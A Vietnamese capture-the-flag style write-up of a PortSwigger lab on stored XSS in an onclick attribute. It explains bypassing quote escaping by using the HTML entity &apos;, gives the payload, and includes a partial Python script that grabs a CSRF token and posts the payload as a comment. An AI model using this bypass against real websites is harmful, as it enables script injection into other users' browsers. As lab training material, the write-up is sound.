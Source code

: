 link: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped

### Đề bài

![image](https://hackmd.io/_uploads/HkO70awqa.png)

### Phân tích

- Lab trên chứa lỗ hổng stored XSS ở chức năng bình luận, để solve lab trên thì mình cần bình luận mà thực hiện được chức năng alert khi mà ấn vào tên của tác giả bình luận

![image](https://hackmd.io/_uploads/HyOqkCD5p.png)

- Load lai trang chứa comment có thể thấy, trường website được truyền thẳng vào hàm track() trong event onclick tại tag `<a>` chứa tên người dùng.

- mình thử comment với website là `http://a.com"\'><` thì thấy các kí tự `"\'><` đều bị HTML encode cũng như escape.

### Khai thác

- Nhìn vào hàm track() ta có thể sử dụng payload sau `http://a.com'-alert(1)-'` để thoát ra khỏi chuỗi và gọi được alert nhờ expression. Tuy nhiên vì `'` đã bị escape nên ta sẽ encode thử `'` thành &apos; xem.
- vì trước khi xử lý js thì browser sẽ tự HTML decode giá trị của thuộc tính onclick

payload ở phần website sẽ là
`http://a.com&apos;-alert(1)-&apos;`

![image](https://hackmd.io/_uploads/r1GsbRDc6.png)

mình đã vieetrs lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0af4007f03b1d787809f94f600df006d.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + "/post?postId=8",
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
csrf = soup.find('input', {'name' : 'csrf'})['value']
payload = "http://a.com&apos;-alert(1)-&apos;"
data = {
    'comment': "<script>alert('XSS')</script>",
    'postId': '8',
    'name': 'cuong',
    'email': 'a@a.a',
    'website' : payload,
    'csrf' : csrf,
}

response = session.post(
    url + "/post/comment",
    data=data,
```